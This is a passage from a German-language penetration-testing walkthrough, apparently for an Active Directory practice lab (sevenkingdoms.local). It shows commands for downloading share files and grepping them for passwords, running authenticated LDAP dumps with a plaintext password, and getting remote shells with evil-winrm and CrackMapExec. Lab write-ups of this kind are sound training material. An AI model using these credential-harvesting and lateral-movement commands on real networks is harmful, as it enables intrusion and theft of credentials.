 #### File Download & Analysis
```bash
# In SMB-Sessions wichtige Dateien herunterladen
# NETLOGON Share:
smb: \> get script.ps1
smb: \> get secret.ps1

# ALL Share (CASTELBLACK):
smb: \> get arya.txt
smb: \> get connys_textdatei.txt
smb: \> get Test.txt

# Heruntergeladene Dateien analysieren
cat script.ps1 | grep -i "password\|credential\|key"
cat secret.ps1 | grep -i "password\|credential\|key"
strings *.txt | grep -i "password\|credential"
```

---

## Phase 5: Post-Exploitation & Lateral Movement

### 5.1 Authenticated LDAP Enumeration

#### Complete Domain Dumps
```bash
# Mit gültigen Credentials vollständige LDAP-Dumps
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=*)" > ldap_north_complete.txt

# Spezifische Objekt-Klassen
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=user)" sAMAccountName userPrincipalName description > users_north.txt

ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=group)" sAMAccountName member > groups_north.txt

# Service Principal Names mit Authentication
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "servicePrincipalName=*" servicePrincipalName sAMAccountName > spns_north.txt
```

### 5.2 PowerShell Remoting

#### WinRM Access & Commands
```bash
# Evil-WinRM für PowerShell-Remoting
evil-winrm -i 192.168.20.11 -u jon.snow -p iknownothing

# Alternative: CrackMapExec WinRM  
crackmapexec winrm 192.168.20.11 -u jon.snow -p iknownothing -x "whoami"
crackmapexec winrm 192.168.20.11 -u jon.snow -p iknownothing -x "net localgroup administrators"
```
